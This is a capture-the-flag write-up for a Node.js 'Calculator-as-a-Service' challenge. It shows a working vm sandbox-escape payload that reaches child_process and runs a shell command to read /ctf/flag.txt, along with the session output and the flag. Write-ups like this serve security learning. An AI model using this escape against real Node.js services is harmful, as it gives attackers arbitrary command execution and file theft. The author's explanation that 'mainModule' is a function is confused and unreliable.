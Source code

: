 ## Writeup

After inspecting the program and trying to run few commands it was known to me that it was a `sandbox-escaping` problem based on nodejs. I didn't know much about sandbox escaping for javascript so after lot of googling found this two useful websites given below.

- **site used for information :-**  
	
	1. https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html
	2. https://tipi-hack.github.io/2019/04/14/breizh-jail-calc2.html


- **run this to get the flag**

```
$ nc 2020.redpwnc.tf 31273
Welcome to my Calculator-as-a-Service (CaaS)!
This calculator lets you use the full power of Javascript for
your computations! Try `Math.log(Math.expm1(5) + 1)`
Type q to exit.
> this.constructor.constructor("return process")().mainModule.require('child_process').execSync('cat /ctf/flag.txt')
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD} 
```  

I was using the same command as above previously but my mistake was this `{....return process.mainModule....}` as "mainModule" is not a property but a function of process and we need its return value to 	 call the function so it should be like this `{....return process")().mainModule....}`.

## flag
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
